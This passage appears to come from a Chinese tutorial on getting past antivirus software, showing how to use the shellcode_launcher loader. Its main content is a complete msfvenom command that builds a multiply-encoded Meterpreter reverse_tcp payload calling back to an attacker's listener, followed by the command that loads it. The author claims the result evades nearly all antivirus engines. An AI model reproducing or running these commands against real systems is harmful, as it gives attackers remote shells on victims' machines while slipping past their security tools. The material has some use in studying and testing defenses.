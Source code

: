![e1770e90ac8d0adaecfd69d7df55178c](images/2020.03-bypass-03/40.png)

# 3 使用shellcode加载器

## 3.1 使用shellcode_launcher(VT免杀率3/71)

shellcode加载器中效果最好使用较多的就是shellcode_launcher了。

```
https://github.com/clinicallyinane/shellcode_launcher/
```
使用非常简单，克隆到本地`git clone https://github.com/clinicallyinane/shellcode_launcher/`

其中的文件`shellcode_launcher.exe`就是要用到的加载器。

还是先用Msfvenom生成raw格式的shellcode

```
 msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f raw -o shellcode.raw
```
在测试机器上执行，杀软均无反应
```
shellcode_launcher.exe -i shellcode.raw
```
